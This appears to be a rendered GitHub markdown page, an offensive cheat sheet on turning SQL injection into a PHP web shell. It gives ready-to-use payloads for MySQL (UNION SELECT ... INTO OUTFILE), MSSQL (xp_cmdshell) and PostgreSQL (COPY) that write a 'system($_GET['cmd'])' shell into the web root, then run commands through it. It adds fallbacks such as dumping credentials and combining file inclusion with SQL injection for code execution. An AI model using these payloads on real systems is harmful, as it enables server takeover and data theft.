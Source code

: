 ### Uploading a reverse shell via SQL Injection

#### Uploading a **reverse shell via SQL Injection (SQLi)** is an advanced exploitation technique. It depends on:

1) Type of SQL injection (Boolean-based, Error-based, Time-based, Union-based, etc.)
2) Database management system (MySQL, MSSQL, PostgreSQL, Oracle, etc.)
3) File write permissions on the server
4) Web server configurations

#### Detection:

```bash
UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/test.txt'--
```

Then check if `test.txt` is created. This confirms file writing is possible.


#### Common Scenario: SQLi File Write → Upload Reverse Shell

##### MySQL + LOAD_FILE() / INTO OUTFILE

######      Requirements:
- SQLi is **UNION-based or stacked queries** allowed
    
- MySQL has `FILE` privilege
    
- Writable path on web root (`/var/www/html/`, `C:/xampp/htdocs/`, etc.)


######     Upload using SQLi:
```bash
 UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'--
 ```


     Now visit:

      http://target.com/shell.php?cmd=whoami


##### Other Techniques:


######    1. MSSQL - xp_cmdshell or BCP:

If you're targeting Microsoft SQL Server and have xp_cmdshell access  
```bash 
EXEC xp_cmdshell 'echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php';
```

######     2.PostgreSQL + COPY

```bash
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
```


##### If File Write is Not Allowed

If you **can't write files**, alternatives:

###### Exploit File Upload:

- Use SQLi to change file extensions in DB to `.php`
    
- Modify file paths
    
- Change logic in DB that controls allowed extensions
    

######  Leverage SQLi to Extract Sessions or Configs:

- Dump credentials
    
- Dump file paths
    
- Use LFI + SQLi combo for RCE


